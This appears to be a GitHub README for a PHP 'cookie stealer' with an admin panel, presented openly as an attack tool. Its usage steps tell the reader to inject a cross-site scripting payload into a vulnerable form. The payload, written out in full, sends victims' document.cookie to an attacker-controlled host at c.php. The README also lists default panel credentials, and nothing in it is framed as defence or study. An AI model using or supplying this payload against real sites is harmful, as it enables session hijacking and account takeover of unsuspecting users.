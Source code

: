 ![Cookie](https://user-images.githubusercontent.com/8536299/99194653-0f8b8b80-2781-11eb-9415-d4a6efc5920e.png)

# Cookie-stealer
Crappy cookie stealer with 'admin' panel made long time ago..

```admin.php``` to view your cookies, ```c.php``` to grab the cookies.
c.php will write the cookies into admin.php, be sure to have write access on your server.

### Usage
1. Drop ```admin.php``` and ```c.php``` in the same directory.
2. Go to your vulnerable formulary and send him a payload to your ```c.php?c=``` something like this:
 * `<script>document.write("<img src='http://xxxxx.fr/c.php?c="+document.cookie+"'></img>");</script>`
3. Navigate to admin.php, login with username: **root** password: **toor**
4. ???
5. Profit.


